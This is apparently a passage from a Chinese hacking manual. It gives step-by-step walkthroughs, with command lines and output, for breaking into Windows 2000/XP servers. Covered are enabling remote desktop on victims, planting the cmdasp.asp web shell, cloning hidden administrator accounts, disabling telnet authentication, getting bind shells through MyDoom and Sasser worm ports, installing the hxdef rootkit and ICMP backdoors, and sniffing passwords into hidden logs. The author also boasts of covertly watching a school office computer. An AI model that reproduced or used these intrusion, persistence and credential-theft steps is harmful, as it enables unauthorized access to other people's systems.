为了方便系统管理员对服务器进行远程管理，微软在 Win2000 服务器版本中集成了终端服务，这确实给管理员带来了方便，但同时也给网络入侵者的远程控制带来了便利。倘若目标主机已经提供了终端服务，对于入侵者来说只要拥有一个合法的帐号及密码就可以了；而倘若目标主机并没有提供终端服务的话，那么对于入侵者来说，要做的只不过是使用一些工具来开启对方的终端服务而已。

关于自动开启 Win2000 终端服务的工具有许多，dtx3389.bat 就是其中不错的一个。终端服务使用的是 3389 端口，先让我们来看一下目标主机是否已经提供了终端服务。

```text
E:\sagi>nc -vv 192.168.0.128 3389
sagi.mshome.net [192.168.0.128] 3389 (?) : connection refused.
sent 0, rcvd 0, NOTSOCK
```

见图 1，192.168.0.128 主机的 3389 端口没有开启，也就是说对方的终端服务没有开启。

dtx3389.bat 的使用格式为：**dtx3389 目标 IP 地址 用户帐号 "帐号口令"**。但有一点要注意的是，我们拥有的帐号必须是对方的系统管理员帐号，或是对方系统管理员组中的帐号才可以。

```text
E:\sagi\dtx3389>dtx3389 192.168.0.128 administrator "135790"
```

安装过程见图 2，我们可以清楚地看到 dtx3389 先与对方建立了管道连接，然后使用 at 命令查询目标主机上当前的系统时间，再将开启终端服务的命令添加到对方的计划任务中，最后删除掉与对方建立的管道连接。

目标主机重启后，终端服务就应该开启了。让我们再连接一下对方的 3389 端口，看看对方的终端服务是否成功地开启了，见图 3。

```text
E:\sagi>nc -vv 192.168.0.128 3389

sagi.mshome.net [192.168.0.128] 3389

<?> open.
```

3389 端口成功开启了，现在我们可以使用 Win2000 的终端连接程序或是 WinXP 的远程桌面连接程序来连接目标主机了，见图 4。

## 5.8 cmdasp.asp

实际上 cmdasp.asp 中所调用的一些功能并不能算是 Windows 系统中的安全漏洞，微软的本意也许只是想让 ASP 程序在 Windows 平台上能够发挥更多的功能，却没有想到最终却造成了一个不被查杀的类似于木马的 ASP 程序（不过对于目前的一些杀毒软件，已经都将 cmdasp.asp 当作一个后门程序来进行查杀了）。

如何使用 cmdasp.asp 这个程序呢？首先是要将这个程序上传至目标系统的 IIS 目录下，可以通过 IPC$ 的管道连接、TFTP 服务器，如果对方开放了 FTP 服务的话，我们也可以通过 FTP 来上传。

```text
G:\hacker\win2000\backdoor>net use \\61.*.*.131\ipc$ "2258" /user:"administrator"
```

命令成功完成。

```text
G:\hacker\win2000\backdoor>copy CmdAsp.asp \\61.*.*.131\admin$

已复制        1 个文件。
```

我们先使用 ipc$ 上传了 CmdAsp.asp 到目标主机上。接下来我们需要将 CmdAsp.asp 复制到目标主机的 IIS 目录下，通常是 \inetpub\wwwroot 或是 \inetpub\scripts 等目录。

```text
C:\WINNT>copy CmdAsp.asp c:\inetpub\scripts
```

至于如何得到目标主机的 CMD SHELL，我们可以使用一些远程溢出程序，或是利用事先做好的 TELNET 后门。好了，现在我们可以断开连接了，因为针对 CmdAsp.asp 的操作我们将通过 80 端口来完成。

打开我们的浏览器，在地址栏中输入 `http://61.*.*.131/scripts/CmdAsp.asp`

在浏览器中返回的信息见图 1，在输入框中输入我们想执行的命令，点击输入框右边的“Run”就可以了。

图 2 就是执行 `net user` 命令，查看对方系统中所存在的合法帐号。

虽然通过 CmdAsp.asp 我们已经可以执行命令了，但要注意的是，我们此时的权限仅为 IUSR_COMPUTERNAME，而并非 administrator 权限，因此诸如一些添加后门帐号、停止或开启一些系统服务等的操作，我们仍无法完成。

## 5.9 ca.exe

通常在入侵者成功地拿到目标服务器的管理员权限后，为了能够长久地实现对该主机的控制，都会制作一些后门，以方便自己的再次进入及远程控制。

制作后门的方法有许多，最普通的一种就是在系统中添加一个等效于系统管理员权限的帐号，但是这样的帐号很容易被系统管理员发觉并清除，而使用 ca.exe 来克隆一个属于我们的隐藏帐号，显然是一个更好的后门制作方法。

提起小榕的克隆帐号工具 ca.exe，恐怕菜鸟中没有几个不知道的，来看一下 ca.exe 的具体使用说明吧。

```text
G:\hacker\ca\ca
```

```text
Shadow Administrator, by netXeyes 2002/04/28

Written by netXeyes 2002, dansnow@21cn.com

Usage: SA \\IP Account Password CloneAccount ClonePassword

Account: Username <Own administrator Privilege>
Password: Password of User
CloneAccount: CloneUser's Account Name <Must Already Exsited>
ClonePassword: Set Password of CloneUser

Examples:
========

SA.exe \\192.168.0.16 Administrator Password IUSR_VICTIM SetNewPass

Clone Privillege of Administrator to IUSR_VICTIM
And Set IUSR_VICTIM Password to "SetNewPass"
```

见图 1，使用方法讲得很明白。或许许多初学者对于上边的英文说明不是太明白，下边我就通过一个实例来说明一下 ca.exe 的使用。

```text
G:\hacker\ca>ca \\61.*.*.* sagi 135790 IUSR_XXYZ-WEBSERVER 135790

Shadow Administrator, by netXeyes 2002/04/28.

Written by netXeyes 2002, dansnow@21cn.com

Connect 61.*.*.* ....OK
Get SID of IUSR_XXYZ-WEBSERVER....OK
Prepairing ....OK
Processing ....OK
Clean Up ....OK
```

见图 2，sagi 帐号是系统中原有的一个具有 Administrator 权限的帐号，密码为 135790，而 IUSR_XXYZ-WEBSERVER 帐号是对方服务器中 IIS 的一个默认帐号，也就是我们要克隆的帐号，其默认的权限是很小的，但是当我们克隆成功后，IUSR_XXYZ-WEBSERVER 这个帐号就已经拥有了同 sagi 帐号同样的桌面、同样的权限。

```text
G:\hacker\ca>telnet 61.*.*.*
```

见图 3，让我们登录进系统查看一下这个被克隆后的帐号。

```text
C:\net user

C:\net localgroup administrators
```

可以说，图 4 中的那两条命令也是系统管理员所常用的两个用于检查系统帐号的命令，绝大多数后门帐号在这两条命令的执行下，都会原形毕露，就像那个 sagi 帐号一样；但是被我们克隆后的 IUSR_XXYZ-WEBSERVER 帐号虽然已经像 sagi 帐号那样具有了 Administrator 权限，但是并没有显示在 Administrators 组中，而是就像未被克隆前一样，这对于系统管理员来说是很难察觉到 IUSR_XXYZ-WEBSERVER 这个系统中原有的 IIS 默认帐号已经被改头换面的。

我们使用原来添加的 sagi 帐号来克隆 IUSR_XXYZ-WEBSERVER 帐号其实并不好，更好的办法就是使用 Administrator 帐号来克隆 IUSR_XXYZ-WEBSERVER 帐号。

虽然我们可以更改 Administrator 帐号的口令然后再进行克隆，但这样做实在是不明智的，因为我们并不知道 Administrator 帐号的口令，因此更改后就无法再恢复过来了，显然管理员一登录，就会发觉不对。一个办法就是使用 pwdump3 来抓取对方的密码散列，然后再进行破解，成功破解后再进行克隆，这在方法上是完全可行的。

## 5.10 ntlm.exe

ntlm.exe 是小榕编写的一个专门用于清除 telnet NTLM 认证的工具，在我使用 opentelnet 前一直使用的是这个。ntlm.exe 没有什么使用格式，我们唯一要做的就是将这个工具上传到目标服务器上然后执行就可以了。一种简单的途径就是通过 IPC$ 来实现文件的上传。

```bash
G:\hacker\backdoor>net use \\61.*.*.*\ipc$ "135790" /usr:"sagi"

命令成功完成。

G:\hacker\backdoor>copy ntlm.exe \\61.*.*.*\admin$

已复制。        1 个文件。

G:\hacker\backdoor>net time \\61.*.*.*

\\61.*.*.* 的当前时间是 2003/5/30 下午 09:48

命令成功完成。

G:\hacker\backdoor>at \\61.*.*.* 21:50 net stop telnet

新加了一项作业，其作业 ID = 1

G:\hacker\backdoor>at \\61.*.*.* 21:50 ntlm.exe

新加了一项作业，其作业 ID = 2

G:\hacker\backdoor>at \\61.*.*.* 21:50 net start telnet

新加了一项作业，其作业 ID = 3
```

见图 1，然后我们就是慢慢地等待，等待对方的服务器到 21:50 时自动执行我们的命令。

使用 ntlm.exe 的前提就是我们必须要拥有对方系统中一个具有管理员权限的帐号。还有一个办法就是我们溢出得到对方的 cmd shell 后，可以通过 tftp 来实现对文件的上传。

好了，让我们登录看一下。

```bash
C:\hacker\backdoor>telnet 61...
```

见图 2，已经清除了 NTLM 认证，输入我们的帐号及口令后就可以成功地登录进去了，见图 3。

## 5.11 nodoom

MyDoom 是 2004 年 2 月中旬大规模爆发的一种网络蠕虫病毒，该病毒主要是通过电子邮件来进行传播的。与以往病毒不同的是，该病毒感染了系统后，会在被感染主机上打开一个后门端口以用来升级为病毒的新版本，这个端口通常为 3127 端口，如果该端口已经被占用的话，端口号会自动地往后顺延，但不会超过 3198。

nodoom.exe 就是利用 MyDoom 病毒的这一特点，随后出现的一种后门程序，它可以通过 MyDoom 打开的 3127 端口来上传特定的可执行文件并自动执行。

nodoom 的使用格式为 **nodoom 被感染主机 IP 端口 上传的文件**，我们可以上传一些特洛伊木马或是一些后门程序等等。

```bash
F:\hacker\win2000\MYDOOM>nodoom
61.***.***.89 3127 bindshell.exe
```

见图 1，如果一切都顺利的话，程序会提示我们目标主机已经执行了我们的程序。bindshell.exe 执行后会在对方的 53 端口上自动地绑定一个 CMD SHELL，因为这个端口已经被固定在了源程序中，因此该程序不需要任何的格式。

```bash
F:\hacker\win2000\MYDOOM>nc -vv 61.***.***.89 53

61.177.53.89: inverse host lookup failed:
h_errno 11004: NO_DATA

<UNKNOWN> [61.***.***.89] 53
<domain> open

Microsoft Windows XP [版本 5.1.2600]

(C) 版权所有 1985-2001 Microsoft Corp.

C:\Documents and Settings\Ben>
```

NC 成功地得到了一个 CMD SHELL，见图 2。下边让我们来验证一下我们的权限。

```bash
C:\Documents and Settings\Ben>net user sagi 135790 /add

net user sagi 135790 /add

命令成功完成。
```

我们可以成功地添加帐号，见图 3，此时我们得到的 CMD SHELL 拥有 administrator 权限。

## 5.12 sasserftp

就在 Windows LSA（Local Security Authority）服务（LSASRV.DLL）远程缓冲区溢出漏洞被公布没多久，利用该漏洞而编写出的一个网络蠕虫病毒程序 sasser（中文名称：振荡波）就已经开始在 Internet 上肆虐了。短短的几天时间内，成千上万台电脑被感染了 sasser 病毒，给全球造成了巨大的损失，其危害甚至超过了“冲击波”及 mydoom 病毒。

sasser 病毒程序自动在网上寻找存在安全漏洞的主机，在攻击成功后，会打开对方的一个端口，上传自己，并自动执行。而 sasser 的新变种病毒程序也会通过这个端口来进行升级，就像 mydoom 病毒一样。根据病毒的这一特性，很快地，网上就出现了 sasser 病毒的利用程序。下边就让我们来看看这个利用程序的具体使用，如图 1 所示。

```bash
E:\sagi\win2000>sasserftp

[%] mandragore's sploit v1.3 for sasser-x

sasserftp -d <host/ip> [opts]

Options:
- h undocumented
- p <port> to connect to [default: 5554]
- s <'bind' / 'rev'> shellcode [default: 530]
- H <host/ip> for the reverse shellcode
- L setup the listener for the reverse shell
- t <target type> [default 0]; choose below

Types:
0 wXP SP1 all [0x77c0bf21]
1 w2k SP4 all [0x7801d081]
```

```bash
E:\sagi\win2000>sasserftp -d 61.***.***.78 -p 5554 -s 'bind' -P 530
[%] mandragore's sploit v1.3 for sasser-x

[.] launching attack on 61.***.***.78:5554..
[.] will try to put a bindshell on port 530.
[.] using type 'wXP SP1 all'
[+] connected, sending exploit
[+] connected!

Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.

C:\Documents and Settings\lenovo>
```

在图 1 中我们可以看出 sasserftp.exe 的使用格式一共有两种：

```bash
sasserftp -d IP -p 5554 -s 'bind' -P bindshellPort -t 系统类型

sasserftp -d IP -p 5554 -s 'rev' -P 监听端口 -H 自己的 IP -L -t 系统类型
```

如何寻找感染了 sasser 病毒的主机呢？我们可以利用 superscan 寻找 5554 端口，5554 端口就是 sasser 病毒开启的端口，见图 2。

我们选择了第一种使用方式，也就是正向连接方式，shellcode 绑定的端口使用了 530，没有输入“-t 系统类型”，这样，程序会默认使用 winXP SP1，见图 3，我们成功地得到了对方的 cmd shell。

因为 sasser 病毒与 ms04011lsass.exe 程序使用的都是一个系统漏洞，所以我们得到的这个 cmd shell 也是拥有系统权限的，见图 4。

## 5.13 superdoor3.0

superdoor3.0 是一个专门用于隐藏系统帐号的程序。以往的做法是当成功地入侵了远方的 Windows 系统后，直接使用 net user 以及 net localgroup 命令添加一个具有管理员权限的后门帐号，但这样的后门帐号即使是菜鸟管理员也可以轻易地发现并清除掉。而 superdoor 的特点就是在 cmd shell 下以及执行其他的一些有可能暴露该帐号的时候清除掉该帐号，而当你关闭了 cmd shell 或是关闭了那些危险的操作后，再重新恢复该帐号，这就使得我们在日常的操作过程中很难发觉系统中是否存在这样的帐号。

从图 1 中，我们可以看出除了几个系统的内置帐号外，还有一个 killyou 及 sagi 用户帐号，下边让我们执行 superdoor3，看如何隐藏 killyou 帐号。

```bash
E:\yang\superdoor3>door killyou:
135790
```

屏幕上没有什么提示，“135790”为 killyou 帐号的密码，图 2。

我们重新打开一个 cmd 窗口执行 net user 命令看看，就会发现已经看不到刚才的那个 killyou 帐号了。我们再到“本地用户和组”中去查看一下，也发现那个 killyou 帐号已经不存在了，实际上是被隐藏了，图 4。

superdoor3 一次只能隐藏一个帐号，如果我们已经隐藏了一个帐号，再对第二个帐号进行隐藏时，那么第一个帐号就会失去保护而现出原形来。根据这一特点，我们也可以利用这个来检查我们的系统中是否存在被 superdoor3 隐藏的后门帐号，另外也可以通过检查注册表的方法来寻找系统中是否存在这样的帐号。

## 5.14 hXdef100

hxdef（Hacker Defender，中文译名“黑客守卫者”）是一款优秀的内核级后门程序，可以很好地工作在 Windows NT/2000/XP 系统下，其最新版本为 1.0.0。这个后门程序可以实现隐藏文件、进程、系统服务、系统驱动，hxdef100 保存在注册表中的键名及键值、打开的端口以及虚构可用磁盘空间。程序同时也在内存中伪装它所做的改动，并且隐身地控制被隐藏进程。程序安装隐藏后门，注册隐藏系统服务并且安装系统驱动。该后门技术允许植入 Redirector。

bdcli100.exe 为 hxdef100 的客户端连接程序，hxdef100.exe 为主服务程序，hxdef100.ini 及 hxdef100.2.ini 为 hxdef100 的两个默认配置 ini 文件，rdrbs100.exe 为使用 Redirector 功能的客户端程序。

hxdef100 的使用方法主要有以下两种：

```bash
1. hxdef100 -inifilename
2. hxdef100 [开关选项]
```

在第一种使用方法中，使用的是配置文件服务，不包含 ini 文件的扩展名。在此我们可以指定使用的 ini 配置文件，省略时 hxdef100 将会使用缺省的 ini 文件名，如 hxdef100.ini、hxdef100.2.ini。

开关选项主要有以下几种：

- `-installonly`：安装服务，但是不运行
- `-refresh`：读取 ini 文件，更新设置
- `-noservice`：不安装服务，正常运行
- `-uninstall`：从内存卸载 hxdef100，同时断开所有的后门连接，以及终止 hxdef100 服务

hxdef100 的 ini 配置文件一共包括九大部分的内容，分别为：

- Hidden Table（隐藏文件、目录和进程的列表）
- Root Processes（Root 进程）
- Hidden Services（隐藏服务和驱动文件列表）
- Hidden RegKeys（隐藏注册表键名列表）
- Hidden RegValues（隐藏注册表键值列表）
- Startup Run（随系统自启动的程序列表）
- Free Space（硬盘符和虚构的可用空间列表）
- Hidden Ports（隐藏端口）
- Settings（设置）

```bash
F:\test>hxdef100.exe hxdef100
hxdef100.exe hxdef100
```

倘若是连接不成功的话，我们还可以使用如下的方法来安装启动服务，见图 2。

```bash
F:\test>hxdef100 -installonly
hxdef100 -installonly

F:\test>hxdef100 -noservice
hxdef100 -noservice
```

对比着缺省的那两个 ini 配置文件，我们就更容易理解了，见图 1。一般情况下，我们使用默认的设置即可。在图 1 中，我们也看到了，文件中包括了许多特殊字符，如：“}”、“<”、“>”、“\”、“/”等。加入这些特殊字符是为了躲过反病毒系统的检测，当然你要嫌太麻烦，也可以去掉，不会影响到程序的正常使用。

hxdef100 还有一个特殊功能——Redirector 转向器，或许我们可以将这个功能简单地想象成跳板功能或代理功能。

首先上传必须的文件，包括 hxdef100.exe 和 hxdef100.ini，上传成功后，就是安装并运行。

接下来，使用 hxdef100 的客户端程序 bdcli100.exe 进行连接，见图 3。

```bash
F:\sagi\hxdef100>bdcli100 192.168.0.155 80 hxdef-rulez
```

如果一切顺利的话，我们就会在对方的 80 端口上得到一个 cmd shell 了，见图 4。但有一点要注意一下的是，在使用客户端程序连接后门的时候，最好把与对方其他的连接先断开，比如使用 nc 正在与对方建立的连接，否则的话，可能会影响到客户端程序的连接。

下边让我们来看一看 Redirector 的使用，我们在本机上运行 rdrbs100.exe 程序，界面见图 5。

我们使用 add 命令来制作一个 HTTP 转向，也就是实现 Redirector 功能，格式如下，见图 6。

```bash
>add 100 192.168.0.155 80 202.108.36.153 80 hxdef-rulez HTTP www.163.com
```

“100”为我们在本地机器上要使用的端口号；“192.168.0.155”为我们的跳板电脑，也就是被安装了 hxdef 后门的那台电脑；第一个“80”为跳板电脑使用的端口；“202.108.36.153”为我们要浏览的网站服务器的 IP 地址；第二个“80”为网站服务器使用的端口；“hxdef-rulez”为后门程序的连接密码；“HTTP”为端口使用的类型；“www.163.com”为网站的域名。

此时，我们再使用 mpinfo 就可以得到映射信息，使用 list 命令可以看到刚才添加的映射结果，DETAIL 0 则是显示出更加详细的映射信息，包括本地监听的端口、映射的服务器地址及端口、目标服务器的地址及端口、连接的密码及端口的类型，还有目标主机的域名等，其实也就是我们刚才设置的那些情况，见图 7。

除了上边的几个命令外，TEST 0 为测试添加的映射，open all 为开启所有的设置，save 为保存设置，见图 8。

最后让我们来看一下如何使用做好的这个转向功能。我们在本机的 IE 浏览器的地址栏中输入：“http://192.168.0.1:100”，过了一会儿，就会发现已经成功地登录了网页，图 9。实际上，我们是通过 192.168.0.155 这台电脑连接的网易服务器，然后后门程序将接收的数据又发到我们的 100 端口上。当然此时在对方服务器上记录的应该是 192.168.0.155 的登录信息，这样，我们就很好地保护了自己。

## 5.15 icmpdoor

icmpdoor 是一个基于 Windows NT/2000/XP/2003 系统的后门程序，该后门程序因为利用了 ICMP 通道进行通信，所以并不开端口，隐蔽性比起一般的后门程序来还是很好的。

icmpdoor 后门分为服务端程序 icmpsrv.exe 及控制端程序 icmpsend.exe，我们先把服务端程序 icmpsrv.exe 上传到想要控制的电脑上去，至于如何上传可以参考前边使用的方法。

```bash
F:\test>icmpsrv -install
```

卸载这个后门程序的格式为 icmpsrv -remove，安装成功的话，我们会看到成功的信息，见图 1。

```bash
Transmitting File ... Success !
Creating Service ... Success !
Starting Service ... Pending ... Success !
```

下边我们使用后门的客户端程序 icmpsend.exe 来进行连接目标主机。

```bash
E:\sagi\icmpdoor>icmpsend 192.168.0.128

=====Welcome to www.hackerxfiles.net=====
```

## 寂寞的潜伏


```text
[pslist] <List the Process>
[pskill ID] <Kill the Process>
Command <run the command>
```

从上边的使用说明中可以看出，这个后门的使用命令只有四种，第一种是实现上传文件的，也就是将文件上传到那台中了后门程序的电脑上，上传的目录为 system32 下；“pslist”是列出所有的进程；“pskill ID”是杀死特定的进程；“Command”则是执行普通的 cmd 命令，见图3。

连接成功了，后门的提示符出来了，见图2。


让我们先来看看这个后门都支持什么命令，也就是具体的用法了。


列出系统中所有的进程，ICMP-CMD> pslist，见图4。

```text
ICMP-CMD>h

[http://127.0.0.1/hack.exe -admin.exe]
<Download Files. Path is c:\system32>
```

例如，系统中正在运行 CMD.EXE，其 PID 为 3560，下边就让我们来杀掉这个进程，ICMP-CMD>pskill 3560。成功后程序会提示我们“Process is Killed! timed out”，见图5。

至于运行其他的命令就更简单了，和在 cmd 窗口下使用是没有任何区别的，也许唯一的区别只是命令提示符不同而已。图6就是运行 net 命令，添加一个帐号，以及启动 telnet 服务的情况。


最后别忘了，这个后门的退出是使用 ctrl+c，或是大小写的“q”，而不是常用的 exit、quit。

## 5.16 icmd

关于后门程序，我们在前边已经讲了好多了，其中不乏功能强大的内核级后门，可以让我们很隐藏地很方便地控制对方。但是，到底什么样的后门程序才是最好的呢？有的朋友会认为，功能越强大的后门越好。但是不管是什么样的后门，一旦能被杀毒软件查杀了，那这个后门程序基本上也就失去了其存在的价值了。特别是对于安全意识相对较高的服务器来说，或许到那时，这些曾经经典的后门程序只能在安全意识最差的个人电脑用户那里来体现它唯一的价值了。

在这一章的最后，再让我们来看一个很小巧的后门程序 icmd.exe，当然它的使用也是非常简单的。

icmd.exe 只是一个单独的可执行文件，实际上也就是服务端程序，我们将这个文件上传到目标电脑上。

```text
F:\test>icmd /?
```

```text
icmd /?
Usage:
iCmd [password] [port]
```

icmd.exe 的使用格式见图1，只有两个参数，分别是连接后门的口令，以及绑定 cmd shell 的端口。


```text
F:\test>icmd 135790 12345
icmd: 135790 12345
```

在图2中我们执行了程序，连接后门的口令设定为了 135790，端口使用了 12345。


没有控制端程序，如何连接这个后门呢？我们可以使用 telnet，也可以使用 nc。

```text
E:\sagi>nc -vv 192.168.0.128 12345
sagi.mshome.net [192.168.0.128] 12345 (?) open
```


连接好后，我们在“:”后输入设定的口令“135790”，见图3，回车后就可以看到 icmd 的后门信息并得到对方的 cmd shell 了，见图4。


以上就是 icmd 后门的简单使用，现在你会用了吧！

### 比较隐蔽

别慌了，稍等一会儿吧，如果你的网速很快的话，几秒钟就可以完成了！看看我连上以后的效果怎么样！见图7。


呵呵，这是我们学校团委的电脑，在编辑音乐呢！由于这个软件和 VNC 一样都是合法的软件，所以杀毒软件是不会发现的！你也可以给远程主机发送一些命令，点击发送就可以选择了！见图8。


由于这个软件很多东西和其他远程控制软件类似，而且设置也很简单，所以我就不多介绍了。如果还不会你可以来问我。

对于这个软件你的感觉怎么样？它应该比 VNC 强吧。它的安装方法应该是最受菜鸟欢迎的。而且它也有木马软件的一些功能，比如邮件通知。不过要使用这个功能你别选择“断开时移除服务”（在安装选项中）。移除了服务当然就没有程序给你发邮件了啊！

这个软件和 VNC 都是基于 IPC 的，所以如果对方禁止了 IPC，那这个软件就不可以用了！那就得换别的远程控制软件了！

## 第六章


在本章中我们主要介绍几款 sniffer（嗅探）类工具的使用，这些工具可以方便地被上传到目标主机上，以在对方的网络中进行嗅探，获取所有入侵者感兴趣的数据，甚至是明文的登录密码等；很显然，这个任务对于那些好几 M 的大型 sniffer 工具来讲，并不合适。

## 6.1 T-Sniffer

T-Sniffer 是一个基于 Windows 系统平台的图形界面的嗅探工具，运行后的界面见图1。


图1


图2

点击上方工具条中的向上的红色三角，我们就可以打开 T-Sniffer 的嗅探选项设置菜单了。在“过滤以下协议数据”中我们把 TCP、UDP、ICMP 全部选上；在“显示风格”中我们可以按照自己的习惯来选择是以十六进制方式显示还是以十进制方式显示；在“地址过滤”项中，我们可以不用输入，这样 T-Sniffer 就会对所有的 IP 地址进行嗅探了；最后在“绑定到以下接口进行嗅探”中选择自己电脑的 IP 地址，就可以了，见图2。


图3


图4

点击上方工具条中向右的红色三角，T-Sniffer 就开始进行嗅探、捕获数据包了，捕获到的所有数据包都会显示在 T-Sniffer 的窗口中，以供我们进行分析。

图3是以十进制方式显示的捕获到的数据包，图4是以十六进制方式显示的捕获到的数据包。

## 6.2 winsniff

对于网络入侵来说，进行网络监听是一种很常用也是一种非常有效的得到目标敏感信息的方法，特别是对于登录密码的嗅探，不管是 Windows 系统还是 Unix/Linux 系统下，都有许多优秀的嗅探工具，Winsniff.exe 就是其中不错的一个。

```text
E:\bak\wsc11> winsniff /?
```

根据 winsniff 显示出来的说明信息，我们可以知道 winsniff 的使用格式为 **winsniff /a AdapterNumber [options]**，options（选项）主要有：“/l”显示 AdapterNumber，“/s”嗅探结果保存的文件，“/m”为 mail 记录，“/h”为显示帮助信息，图1。


让我们看看可以使用的 Adapters 都有哪些。

```text
E:\bak\wsc11> winsniff /l
```

可以看到，一共包括了“RAS 同步适配器”、“WAN 微型端口（L2TP）”、“直接并行”、“WAN 微型端口（IP）”、“Legend DFE-530TX PCI Fast Ethernet Adapter (Rev B)”、“WAN 微型端口（IPX）”等 0-6 项，通常我们只选择使用网卡就可以了，也就是上边的第 5 项，图2。


```text
E:\bak\wsc11> winsniff /a 5 /s sni.txt /m mail.txt
```

使用网卡来进行嗅探，嗅探结果保存在 sni.txt 文件中，mail 信息记录在 mail.txt 文件中。


如果 winsniff 嗅探到什么东西的话，会在屏幕上显示出 [1][2]，按“ctrl+c”中断 winsniff 就会将刚才嗅探到的信息保存起来了，图3。


图4

让我们打开保存嗅探结果的 sni.txt 文件看看，图4。

从图4我们可以看到 192.168.0.46 在 10:54:16 登录了 192.168.0.111 的 FTP 服务器，并清楚地记录下了登录帐号及密码；以及在 10:56:28 远程登录（telnet）了 192.168.0.111，登录成功后所进行的操作也被清楚地记录了下来。

## 6.3 xsniff

xsniff 是 x-tools 工具中的 sniffer 工具，是 glacier 的作品。

虽然其功能比不上 sniffer pro 这样的专业嗅探工具，但是，作为这么小巧的命令行下的工具来说，该工具已经是相当不错的一款 sniffer 了。

好，下面，我们先来看一下 xsniff 的帮助：

```text
E:\hack-tool\x-tool>xsniff
X Sniffer v1.0 - simple sniffer for win2000
Code by glacier <glacier@xfocus.org>
http://www.xfocus.org

USAGE xsniff <Options>
<Options> means:
 -tcp        Output tcp packets
 -udp        Output udp packets
 -icmp       Output icmp Packets
 -pass       Filter username/password
 -hide       Run in background
 -hostname   Resolve IP address to hostname
 -addr <IP>  Output Packets when IP address equal to <IP>
 -port <Port> Output Packets when port equal to <Port>
 -log <File> Output to <File>
 -asc        Decode Packets to ASCII
 -hex        Decode Packets to HEX
Example:
 xsniff.exe -pass -hide -log pass.log
 xsniff.exe -tcp -udp -asc -addr 192.168.1.1
```

## 嗅探

我们首先来看一下，针对 TCP、UDP、ICMP 这样的协议嗅探的方法：

### 一、TCP 数据包的嗅探监听

```text
E:\hack-tool\x-tool> xsniff -tcp
X-Sniffer v1.0 - simple sniffer for win2000
Code by glacier <glacier@xfocus.org>
http://www.xfocus.org

Sniffing TCP
<Ctrl-C> to quit

TCP 192.168.0.2 -> 192.168.0.1 Port: 23 -> 1031
    Bytes=0 TTL=128 Len=80 --R-A-
TCP 192.168.0.1 -> 192.168.0.2 Port: 1031 -> 23
    Bytes=8 TTL=128 Len=112 -S---
TCP 192.168.0.2 -> 192.168.0.1 Port: 23 -> 1031
    Bytes=0 TTL=128 Len=80 --R-A-
TCP 192.168.0.1 -> 192.168.0.2 Port: 1031 -> 23
    Bytes=8 TTL=128 Len=112 -S---
TCP 192.168.0.2 -> 192.168.0.1 Port: 23 -> 1031
    Bytes=0 TTL=128 Len=80 --R-A-
TCP 192.168.0.1 -> 192.168.0.2 Port: 1031 -> 23
    Bytes=8 TTL=128 Len=112 -S---
```

从上面的端口中可以看出来，这是一次 telnet 的过程。

### 二、UDP 数据包的嗅探监听

```text
E:\hack-tool\x-tool> xsniff -udp
X-Sniffer v1.0 - simple sniffer for win2000
Code by glacier <glacier@xfocus.org>
http://www.xfocus.org

Sniffing UDP
<Ctrl-C> to quit

UDP 192.168.0.1 -> 192.168.0.255
Bytes=209 TTL=128 Port: 138 -> 138 Len=217
UDP 192.168.0.2 -> 192.168.0.1
Bytes=265 TTL=128 Port: 137 -> 137 Len=273
UDP 192.168.0.1 -> 192.168.0.2
Bytes=50 TTL=128 Port: 137 -> 137 Len=58
UDP 192.168.0.1 -> 192.168.0.255
Bytes=174 TTL=128 Port: 138 -> 138 Len=182
UDP 192.168.0.1 -> 192.168.0.255
Bytes=50 TTL=128 Port: 137 -> 137 Len=58
UDP 192.168.0.1 -> 192.168.0.255
Bytes=50 TTL=128 Port: 137 -> 137 Len=58
UDP 192.168.0.1 -> 192.168.0.255
Bytes=50 TTL=128 Port: 137 -> 137 Len=58
```

UDP 的 137 和 138 端口大家熟悉吗？这就是 NETBIOS 端口。

在局域网中，NETBIOS 端口会每隔一段时间就进行一次通信以确定主机列表。

### 三、ICMP 数据包的嗅探监听

```text
E:\hack-tool\x-tool> xsniff -icmp
X-Sniffer v1.0 - simple sniffer for win2000
Code by glacier <glacier@xfocus.org>
http://www.xfocus.org

Sniffing ICMP
<Ctrl-C> to quit

ICMP 192.168.0.2 -> 192.168.0.1
Bytes=28 TTL=128 Type: 0,0 ID=2 SEQ=5
ICMP 192.168.0.1 -> 192.168.0.2
Bytes=28 TTL=128 Type: 8,0 ID=2 SEQ=5
ICMP 192.168.0.2 -> 192.168.0.1
Bytes=28 TTL=128 Type: 0,0 ID=2 SEQ=6
ICMP 192.168.0.0.1 -> 192.168.0.2
Bytes=28 TTL=128 Type: 8,0 ID=2 SEQ=6
ICMP 192.168.0.2 -> 192.168.0.1
Bytes=28 TTL=128 Type: 0,0 ID=2 SEQ=7
ICMP 192.168.0.1 -> 192.168.0.2
Bytes=28 TTL=128 Type: 8,0 ID=2 SEQ=7
ICMP 192.168.0.2 -> 192.168.0.1
Bytes=28 TTL=128 Type: 0,0 ID=2 SEQ=8
ICMP 192.168.0.1 -> 192.168.0.2
Bytes=28 TTL=128 Type: 8,0 ID=2 SEQ=8
```

以上就是一次 ping 的过程，根据 Type 和 ID 就可以判断，至于如何判断，不在本文的讨论范围内，请大家查阅 TCP/IP 书籍中关于 ICMP 类型的文献。

以上的三个针对不同协议类型的数据包进行监听的过程，只能在局域网中观察一些协议的动向而已，对于入侵和扩大成果来说，没有什么太过实际的意义。

下面，讲一下其他的一些对于我们的入侵有实际意义的命令的用法。

### 四、sniffer 密码

```text
E:\hack-tool\x-tool> xsniff -pass
X-Sniffer v1.0 - simple sniffer for win2000
Code by glacier <glacier@xfocus.org>
http://www.xfocus.org

Sniffing TCP PASSWORD
<Ctrl-C> to quit
```

这个命令是用来在网络中 sniffer 用户名密码的，这样，得到的用户名和密码将在窗口中显示出来（可惜，我 sniffer 了一段时间也没抓到，很背~~~）。

这样抓到的用户名和密码将在 cmd 屏幕上显示，对于我们来说，如果是在本地机上使用的话，还没有什么大碍；如果是在内网上的话，这样的命令实在有点……呵呵，看不到密码，倒！

所以，我们要用这样的命令：

```text
E:\hack-tool\x-tool> xsniff -pass -hide -log c:\psw.txt
X-Sniffer v1.0 - simple sniffer for win2000
Code by glacier <glacier@xfocus.org>
http://www.xfocus.org

Sniffing TCP PASSWORD
<Ctrl-C> to quit
```

这样一来，就可以将抓到的用户名和密码保存在本机 C 盘根目录下的 psw.txt 文件中了，而且，由于 -hide 这个参数，该命令将被隐藏。如何隐藏？

